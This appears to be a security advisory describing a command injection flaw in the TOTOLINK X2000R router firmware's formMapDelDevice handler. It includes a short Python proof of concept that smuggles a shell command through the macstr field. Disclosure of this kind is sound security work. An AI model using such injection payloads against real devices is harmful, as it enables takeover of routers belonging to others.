


# TOTOLINK X2000R(V1.0.0-B20221212.1452) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/242/ids/36.html

## Affected Version
V1.0.0-B20221212.1452
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `sub_458e00` function of web server `/bin/boa`, which is the handler of `formMapDelDevice` function. The value of the `macstr` parameter will be spliced ​​into the command, which allows an attacker to excute any command.

## POC
```python
import requests

url = "http://192.168.5.12/boafrm/formMapDelDevice"

payload = {'submit-url': 'multi_ap_popup_device_details.htm?count=1',
            'clientoff': '1',
            'macstr': ';echo success > /tmp/success;#',
            'bandstr': '#',
            'sessionCheck': '47f728da9cc450ab26ed9655a6a81e58'
            }


requests.request("POST", url, data=payload)
```
